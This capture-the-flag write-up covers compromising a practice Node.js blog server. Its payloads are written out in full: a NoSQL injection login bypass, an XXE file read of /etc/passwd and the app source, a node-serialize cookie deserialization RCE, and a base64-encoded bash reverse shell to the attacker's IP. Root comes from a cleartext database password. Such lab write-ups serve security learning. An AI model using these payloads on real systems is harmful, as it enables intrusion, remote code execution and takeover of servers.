





# Recon

Let's start with usual all-tcp scan:

```sh
> nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.139

PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

Now detailed scan on found ports:

```sh
> nmap -p 22,5000 -sVC --min-rate 10000 -oA scans/nmap-tcpdetail 10.10.11.139

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Log in as admin

We see Node.js app running on open http port. Let's check it out.
On site, there are some not very useful links, and login page:  



Some simple sql and nosql auth bypasses didn't yield expected
results, but one of them did, along with changing Content-Type
to application/json, which is accepted by page without problems:  

```json
{
    "user":"admin",
    "password":{
        "$ne":"admin"
    }
}
```

Seems this page is vulerable to nosql injection, as above payload
gives us access to admin page:   



# Read source code

After trying to upload "posts", which are just xml files of exact
structure, we discover XXE vulnerability, granting us arbitrary file read,
with following payload:

```xml
<!DOCTYPE test [
    <!ENTITY example SYSTEM "file:///etc/passwd"
]>

<post>
    <title>test</title>
    <description> &example; </description>
    <markdown>test</markdown>
</post>
```



As we can see, we can read the contents of /etc/passwd just fine.
When trying to access user.txt file of admin and syslog accounts,
it reacts with error. Probably permissions are set up in such a way,
that without a shell even owner cannot read that file 
(without using chmod first).

Instead, we will try to read the source files of this application
to find some vulnerabilities white-box style.
To find out which directory source files are in, we can provoke
an error and try to read the path from error messages, if there
will be any.

Fortunately, trying to create malformed article indeed resulted in error:




From that, we can assume that source code is under /opt/blog directory.
Standard name for main file in node application is server.js, so we try to fetch
it using above xxe payload with /opt/blog/server.js path.

The result is retrieved code below:

```javascript
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: "UHC-SecretKey-123"}));

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}


app.get('/', async (req, res) => {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)


app.listen(5000)
```

As we can see, there is unserialize function used inside authenticated function,
and it's probably used on the cookie. We can exploit that, since unserialize 
is vulnerable to untrusted input. Basically, we can make a javascript
object with function as a value of one of the fields. 
Example object:

```javascript
var y = {
    rce : function(){
        require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
    },
}
```

Then, we need to serialize it using node function:

```javascript
console.log(serialize.serialize(y))
```

It gives following output:

```json
{
    "rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });\n }()"
}
```

Notice that we added () after function definition, to make it immediate.
Now it will resolve as soon as object is created, executing contents of the function.

After doing this, we need to url-encode our payload, and feed it to application
as cookie value. We will not execute ls though, as it would be useless since
we cannot see the output. We will execute ping instead, sending request to
our attack machine, while setting up tcpdump to listen beforehand:

```bash
> sudo tcpdump -ni tun0 icmp
```
Payload:

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process')
.exec('ping -c 1 10.10.14.8', function(error, stdout, stderr){console.log(stdout)});}()"}
```

After urlencoding payload and making request to / with it, we got a ping from
victim machine. Now that we confirmed that rce indeed works, we can proceed to
sending payload with reverse shell this time.

# Admin user shell

Following payload after urlencoding initiates reverse shell:

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process')
.exec('echo ZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuMTIvODAwMCA8JjEK|base64 -d|bash',
function(error, stdout, stderr){console.log(stdout)});}()"}
```

The base64 part is simple bash reverse shell from gtfobins.

# Root shell

After logging in as admin user, we notice some things.
First, sudo -l prompts for password, which we don't have right now.
Second, there is mongod running on this system.

```bash
> ps auxww

...
mongodb  0:44 /usr/bin/mongod --unixSocketPrefix=/run/mongodb --config /etc/mongodb.conf
...
```

We connect to the local mongo database:

```bash
> mongo
```

To list all databases, we use:

```sh
> show dbs

admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
```

Since all of them except blog are default ones, we will be mainly interested
in blog:

```sh
> use blog
switched to db blog

> show collections
articles
users
```

Users collection seems interesting.

```sh
> db.users.find()

dbdb.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"),
"username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```

It does contain cleartext admin password. After using it with sudo -l,
we see that admin user can run all the commands with sudo. We run
sudo su, type in the password, and access root shell.
